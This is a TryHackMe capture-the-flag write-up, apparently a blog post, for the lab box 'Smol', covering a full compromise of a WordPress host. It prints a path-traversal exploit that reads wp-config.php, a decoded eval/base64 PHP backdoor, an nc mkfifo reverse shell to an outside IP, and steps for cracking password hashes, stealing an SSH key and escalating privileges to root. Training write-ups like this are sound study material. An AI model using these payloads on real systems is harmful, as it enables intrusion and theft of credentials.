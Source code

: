 ```yaml
---
title: "TryHackMe - Smol"
date: 2025-02-20 22:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [wordPress, exploits, privilege escalation, reverse shell]

---
```



# SMOL

## 1. Initial Scanning

First, I start with an nmap scan and adding adress to `/etc/hosts`:

```sh
 nmap -T4 -n -sC -SV -Pn -p- IP
 sudo nano /etc/hosts
```

## 2. Using WPScan

I detect that the site is running WordPress, so I run `wpscan`:

```sh
 wpscan --url http://www.smol.thm/
```

I find a vulnerable plugin: **jsmol2wp v1.07**.

## 3. Exploiting the Vulnerable Plugin

After searching for exploits, I find a vulnerability that allows reading the `wp-config.php` file:
https://vulners.com/wpexploit/WPEX-ID:AD01DAD9-12FF-404F-8718-9EBBD67BF611

```sh
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

Database credentials found:

```sh
DB_USER: wpuser
DB_PASSWORD: kbLSF2Vop#lw3rjDZ629*Z%G
```

## 4. Accessing WordPress Admin Panel

Using the retrieved credentials, I log into:

```sh
http://smol.thm/wp-login.php
```

Inside the dashboard, I find **Webmaster Tasks**, specifically:

```
[IMPORTANT] Check Backdoors: Verify the SOURCE CODE of "Hello Dolly" plugin as the site's code revision.
```

Using the previous exploit, I retrieve the source of the **Hello Dolly** plugin:

```sh
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php
```

I find a backdoor:

```php
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

Decoding in CyberChef reveals:

```php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
```

This allows Remote Code Execution (RCE).

## 5. Obtaining a Reverse Shell

Since the application is vulnerable to RCE via `cmd`, I generate a reverse shell at:

```sh
www.revshells.com
```

I select **nc mkfifo** and obtain:

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.21.77 443 >/tmp/f
```

I URL encode this using CyberChef:

```sh
rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f%7Csh%20-i%202%3E&1%7Cnc%2010.8.21.77%20443%20%3E/tmp/f
```

Setting up a listener:

```sh
nc -lvnp 443
```

Triggering the payload:

```sh
http://www.smol.thm/wp-admin/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.8.21.77%20443%20%3E%2Ftmp%2Ff
```

Shell obtained!

I set the `TERM` environment variable to `xterm` to inform the system that I am using an `xterm` terminal:

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```



## 6. Database Access & Extracting Hashes

Using the credentials found earlier:

```sh
mysql -u wpuser -p kbLSF2Vop#lw3rjDZ629*Z%G
```

Listing databases:

```sql
SHOW DATABASES;
USE wordpress;
SHOW TABLES;
SELECT * FROM wp_users;
```

Extracted password hashes:

```
admin:$P$BH.CF15fzRj4li7nR19CHzZhPmhKdX.
wpsuer:$P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E.
think:$P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/
gege:$P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1
diego:$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1
xavi:$P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1
```

Cracking hashes with `john`:

```sh
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Password for **diego**: `sandiegocalifornia`

Logging in:

```sh
su diego
```

Finding first flag:

```sh
cat user.txt
45edaec653ff9ee06236b7ce72b86963
```

## 7. SSH Private Key Discovery

Searching user directories, I find **think's SSH private key**:

```sh
ls -la /home/think/.ssh
cat /home/think/.ssh/id_rsa
```

Using the key to log in:

```sh
ssh -i id_rsa think@127.0.0.1
```

## 8. Privilege Escalation via PAM Misconfiguration

Checking `/etc/pam.d/su`, I find:

```sh
auth sufficient pam_succeed_if.so use_uid user = think
```

This allows me to switch to **gege** without a password:

```sh
su gege
```

Finding `wordpress.old.zip`, I transfer it:

```sh
python3 -m http.server 8080
wget http://smol.thm:8080/wordpress.old.zip
```

Using `zip2john`:

```sh
zip2john wordpress.old.zip > hashes
john hashes --wordlist=/usr/share/wordlists/rockyou.txt
```

Cracking reveals **xavi’s** database credentials:

```
DB_USER: xavi
DB_PASSWORD: P@ssw0rdxavi@
```

Logging in:

```sh
su xavi
```

## 9. Root Privileges

Checking sudo permissions:

```sh
sudo -l
```

Xavi has full sudo access, so I escalate to `root`:

```sh
sudo su -
```

Final flag found:

```sh
cat root.txt
bf89ea3ea01992353aef1f576214d4e4
```

## Conclusion

This CTF involved multiple vulnerabilities: an outdated WordPress plugin, a backdoor, weak password hashes, and a PAM misconfiguration. Combining these allowed full system compromise.
